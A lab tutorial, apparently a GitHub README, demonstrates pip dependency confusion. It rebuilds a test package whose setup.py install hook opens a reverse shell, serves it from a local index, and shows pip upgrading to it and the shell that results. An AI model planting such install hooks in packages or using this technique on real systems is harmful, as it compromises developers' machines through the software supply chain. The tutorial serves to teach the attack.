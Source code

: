# PIP dependency confusion
## Theory
![conf](confusion.png)

https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610
## Lab setup
- Debian GNU/Linux 12 (bookworm) x64
- Python 3.11.2 
- Python virtualenv
- pip 23.0.1

## POC
We are going to use [pip-install-test package](https://pypi.org/project/pip-install-test), the current version is 0.5.
First of all activate a virtual enviroment:

    python3 -m venv dep-conf
    source dep-conf/bin/activate
    (dep-conf) user@xxxxx:~$ 

Proceed to install the test package:

     pip install pip-install-test -vv
     ...
     Successfully installed pip-install-test-0.5

To perform our attack we must set a local pip repo. This is a very easy task: https://packaging.python.org/en/latest/guides/hosting-your-own-index
Here I'm going just to create the required folder structure, then I will use Python built-in web server to host the malicious package. My root web folder structure is the following:

    piprepo.local/
    └── pip-install-test
        └── pip-install-test-0.6.tar.gz

You can download the package from this repo and serve it directly using your web server, but for the sake of learning we are going to recreate the package from scratch. Once you have decompressed the archive you will have the following directory structure:

        pip-install-test-0.6/
        ├── pip_install_test
        │   └── __init__.py
        ├── pip_install_test.egg-info
        │   ├── dependency_links.txt
        │   ├── not-zip-safe
        │   ├── PKG-INFO
        │   ├── SOURCES.txt
        │   └── top_level.txt
        ├── PKG-INFO
        ├── README.rst
        ├── setup.cfg
        └── setup.py

We can delete some stuff that actually we don't need to recreate the package:

        cd pip-install-test-0.6/
        rm -r setup.cfg pip_install_test.egg-info

Now our package source folder structure should be:

        pip-install-test-0.6/
        ├── pip_install_test
        │   └── __init__.py
        ├── PKG-INFO
        ├── README.rst
        └── setup.py

We are interested in abuse the set-up procedure, so our payload has to be inserted into setup.py:

       ...
            
        class PostInstallCmd(install):
            def run(self):
                install.run(self)
                print ("Hello, I'm going to confuse U...")
                s=socket.socket()
                s.connect(("127.0.0.1",9001))
                [os.dup2(s.fileno(),f)for f in(0,1,2)]; pty.spawn("sh")
        
        setup(name='pip-install-test',
              version='0.6',
              description='A minimal stub package to test success of pip install',
              long_description=long_description,
              author='Simon Krughoff',
              author_email='krughoff@lsst.org',
              license='MIT',
              packages=['pip_install_test'],
              zip_safe=False,
              cmdclass={
                    'install': PostInstallCmd
                }
              )
The interesting part is the cmdclass attribuite object, that will execute the actual apyload, that of course is a reverse shell to localhost, in this case.

## Perform the attack
First create the package (you know that to confuse pip we have to serve a more recent version, here I just incremented to 0.6). From inside the root package source directory execute:

    pip-install-test-0.6$ python3 setup.py sdist
    ...
    creating dist
    Creating tar archive
    removing 'pip-install-test-0.6' (and everything under it)

You will find the created archive inside the dist folder:

    pip-install-test-0.6$ ls dist
        pip-install-test-0.6.tar.gz

Now we have to move the package inside the web root folder, taking care to respect the required structure for the local pip repository:

    mv dist/pip-install-test-0.6.tar.gz /home/user/piprepo.local/pip-install-test

Then you should have the following structure:

    cd /home/user/piprepo.local/
    ~/piprepo.local$ tree
    .
    └── pip-install-test
        └── pip-install-test-0.6.tar.gz

From here we will execute our web server:

    ~/piprepo.local$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

Now we have to trick pip to get our malicious package, we can just update pip-install-test, saying to pip to look in our local repo for the new version. Before that start a nc listener:

     nc -lvp 9001
    listening on [any] 9001 ...

Then from the virtual enviroment proceed to update the package:

    (dep-conf) user@xxxxx:~$  pip3 install pip-install-test --trusted-host <your_hostname> --index-url http://<your_hostname>:8000 -vv -U
    ...
    Looking up "http://xxxxx:8000/pip-install-test/pip-install-test-0.6.tar.gz" in the cache
    No cache entry available
    ...
    http://xxxxx:8000 "GET /pip-install-test/pip-install-test-0.6.tar.gz HTTP/1.1" 200 1702
    ...
    Attempting uninstall: pip-install-test
    Found existing installation: pip-install-test 0.5
    Uninstalling pip-install-test-0.5:
    ...
    Copying pip_install_test.egg-info to /home/user/dep-conf/lib/python3.11/site-packages/pip_install_test-0.6.egg-info
      running install_scripts
      writing list of installed files to '/tmp/pip-record-8vjjx4uj/install-record.txt'
      Hello, I'm going to confuse U...

Then we shoul get a shell:

    ...
    connect to [127.0.0.1] from localhost [127.0.0.1] 37186
    (dep-conf) \[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ id
    id
    uid=1000(user) gid=1000(user) groups=1000(user),995(qubes)
    (dep-conf) \[\e]0;\u@\h: \w\a\]\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ 



    
    
        
        

  
    
